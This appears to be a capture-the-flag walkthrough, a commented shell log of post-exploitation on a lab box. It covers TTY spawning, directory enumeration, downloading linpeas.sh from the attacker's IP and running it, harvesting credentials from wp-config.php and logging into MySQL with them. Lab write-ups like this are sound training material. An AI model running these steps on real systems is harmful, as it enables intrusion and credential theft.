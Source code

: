 ```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

whoami
#www-data

#begin basic enumeration
ls -la /var/www

ls -la /opt

ls -la /home

ls -la /home/bjoel

cat /home/bjoel/user.txt
#this does not give us user flag
#we have to look somewhere else

#we have a .pdf file in this dir
#we can download that using meterpreter
#Ctrl+C to get out of shell

download Billy_Joel_Termination_May20-2020.pdf
#inspect this in attacker machine

#get into shell again
shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

ls -la /media

ls -la /media/usb
#permission denied

#we can use linpeas to check for privesc

#in attacker machine
python3 -m http.server

#in reverse shell
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#get creds from wp-config.php

#password reuse does not work for ssh

which mysql
#we have mysql

mysql -u wordpressuser -p
#using the password, we are able to login

show databases;

select blog;

show tables;

```